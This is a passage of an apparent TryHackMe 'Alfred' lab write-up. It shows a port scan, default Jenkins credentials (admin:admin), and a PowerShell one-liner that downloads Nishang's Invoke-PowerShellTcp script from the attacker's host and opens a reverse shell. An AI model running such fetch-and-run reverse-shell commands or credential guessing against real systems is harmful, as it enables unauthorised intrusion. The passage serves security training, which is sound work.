









# TryHackMe — Alfred 

The Alfred TryHackMe room is designed to teach how attackers exploit misconfigured web applications and weak credential security to gain initial access, and then escalate privileges to full system control. It focuses on abusing a vulnerable Jenkins server, where attackers can log in using default or weak credentials and execute commands through build jobs. Once initial access is gained, the room demonstrates how to obtain a reverse shell and upgrade it to a more stable session (like Meterpreter). After that, it introduces Windows privilege escalation techniques, such as exploiting insecure permissions or token privileges to move from a low-privileged user to Administrator/SYSTEM access. Overall, the room emphasizes the importance of proper credential management, secure service configurations, and post-exploitation techniques in real-world penetration testing.

## Task-1 - Initial Access

This is a Windows application, we’ll be using Nishang to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we’ll be using the reverse shell scripts.

Hi everyone! In this introduction, we’re going to exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

##### Q1) How many ports are open? (TCP only)

 **Command**
```bash
nmap -sCV -sT -Pn -v 10.48.139.48
```


- 80/http 

- 3389/ssl 

- 8080/https 



**Answer:** 3

##### Q2) What is the username and password for the login panel? (in the format username:password)

**Answer:** admin:admin 

##### Q3) Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString(‘http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
















